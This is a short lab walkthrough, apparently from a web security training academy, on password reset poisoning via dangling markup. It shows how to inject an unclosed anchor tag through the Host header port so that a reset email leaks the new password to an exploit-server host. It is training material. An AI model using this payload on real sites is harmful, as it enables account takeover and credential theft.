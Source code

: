 ## Password reset poisoning via dangling markup

Send the POST /forgot-password request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the Host header and still reach the site as normal. Sending this request will still trigger a password reset email:

```Host: YOUR-LAB-ID.web-security-academy.net:arbitraryport```
In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
Send the ```POST /forgot-password``` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

```Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?```
